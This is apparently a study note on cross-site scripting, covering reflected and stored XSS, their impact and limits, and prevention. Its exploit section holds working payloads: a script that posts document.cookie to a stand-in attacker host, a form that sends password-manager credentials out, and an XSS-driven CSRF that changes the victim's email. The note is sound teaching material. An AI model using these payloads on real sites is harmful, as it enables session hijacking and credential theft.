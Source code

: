 # Cross-site scripting (XSS) :twisted_rightwards_arrows:

Allows an attacker to masquerade as a victim user and perform actions on their behalf.  Works by injecting malicious scripts into a website that execute in the victim's browser.

To test for XSS, inject the JavaScript `alert()` or `print()` function to see if they execute.  If yes, then XSS is possible.

:warning: Note that `print()` is now preferable as some browsers are disabling `alert()`.

## Reflected XSS

Malicious script comes from the current HTTP request:
```html
<!-- link: https://insecure-website.com/status?message=<script>print()</script> -->
<p>Status: <script>print()</script></p>
```

If the user follows the above URL, the script will execute in their browser.

### Impact

- Perform any action on behalf of the victim with their current session
- View and modify any data the victim can view/modify
- Initiate attacks on other users that will appear to come from the victim

### Limitations

The malicious URL must be delivered to the victim, and executed by them in a context where it can cause damage (e.g. in an authenticated session).

Delivery can be via infected links on other sites, email, text, social media, etc.

## Stored XSS

Persistent or second-order XSS.  Caused by a malicious script being stored and executed by the victim in the future.  An example is a malicious comment on a blog post.

Safe comment:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

Malicious comment:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E&name=Carlos+Montoya&email=carlos%40normal-user.net
```

### Impact

- Same impacts as reflected XSS with added benefits of:
   - Attacker does not need to find an external method to have the user visit a malicious URL.  They wait for the user to visit the vulnerable site.
   - User will likely be logged in when the malicious script executes.

## Exploit

### Stealing cookies

Steal the user's site cookies, inject them into a new browser session and perform actions on their behalf.

```javascript
// Inject into a link the user will click
<script>
fetch('https://attacker-comain.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
});
</script>
```

#### Limitations:

- User must have an active session
- Application may have blocked JavasScript cookie access with `HttpOnly` flag.
- User session may have additional protections (CSRF, MFA, IP based restrictions).
- User session may time out before it can be hijacked.

### Capturing passwords from password managers

If a password manager is installed, the password field will be pre-filled with the user's password.  This can then be sent back to the attacker.

```html
<!-- Create a a content post (e.g. comment on a blog).
     The password manager will auto-fill these when the page loads. -->
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker-domain.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

#### Limitations:

- User must have a password manager installed.
- If MFA is enabled on the user's account, the attack becomes more difficult.

### Use XSS to perform CSRF

Perform actions on behalf of a user, such as changing their account email and then triggereing a password reset to gain access.

```html
<!-- Create a a content post (e.g. comment on a blog).
     Trigger a change email request when the page loads. -->
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=attacker@naughty.com')
};
</script>
```

## Prevent

- Filter all input as strictly as possible.
- Encode data when output to prevent it being interpreted as HTML.
- Use reponse headers to prevent XSS with `Content-Type` and `X-Content-Type-Options` if the response is not HTML.
- Use a Content Security Policy (CSP) to prevent the execution of malicious scripts.

## Tools

- [Burp Collaborator (pro)](https://portswigger.net/burp/documentation/collaborator)

## References

- https://portswigger.net/web-security/cross-site-scripting
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://portswigger.net/research/alert-is-dead-long-live-print
